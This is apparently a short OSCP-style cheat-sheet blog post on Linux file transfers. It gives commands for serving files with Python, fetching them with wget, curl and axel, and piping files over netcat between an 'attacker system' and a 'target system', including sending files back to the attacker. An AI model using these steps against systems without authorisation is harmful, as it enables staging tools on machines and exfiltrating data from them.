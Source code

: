 ```yaml
---
title: Linux File Transfers
author: linatl
date: "2021-03-20 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### Start a webserver
```
Python3
> sudo python3 -m http.server 80
Python2
> sudo python -m SimpleHTTPServer 80
```

###### Download from bash
```
> wget 192.168.1.1:443/file.txt
> curl 192.168.1.1:443/file.txt -o file.txt
> axel 192.168.1.1:443/file.txt -o file.txt
```

###### netcat
```
On the target system:
> nc -lvp 80 > file.txt
On the attacker system:
> nc 192.168.1.1 80 < file.txt

Also works the other way, to get files back to the attacker system
```
